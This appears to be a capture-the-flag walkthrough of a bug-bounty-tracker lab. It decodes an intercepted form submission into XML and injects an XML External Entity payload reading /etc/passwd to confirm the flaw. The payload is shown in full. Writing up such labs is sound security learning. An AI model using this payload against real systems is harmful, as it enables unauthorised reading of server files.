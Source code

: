 Let's navigate to the web page.

![](1.png)

Tis is the index page of a bug bounty team, let's check the portal page.

![](2.png)

click the link to go to bounty tracker.

![](3.png)

Here we got a bug bounty form, let's fill it.

![](4.png)

When we hit hit submit, it shows what would have been added to the DB if it were ready.

### Burp

Let's intercept intercept this post request using `burp suite`.

![](5.png)

The data looks to be encoded, to get the clear text data we need to decode as url then as base64.

![](6.png)

We got XML, let's check if it is vulnerable to XML External Entities attack by adding the following payload the XML

```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
```

```xml
data=<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>124</cwe>
		<cvss>9</cvss>
		<reward>423124</reward>
		</bugreport>
```

Using burp repeater let's send our malicious xml data.

![](7.png)

Before we send it we need to re-encode it to base64 then as url.

![](8.png)

Great! We confirmed the XXE vulnerability.

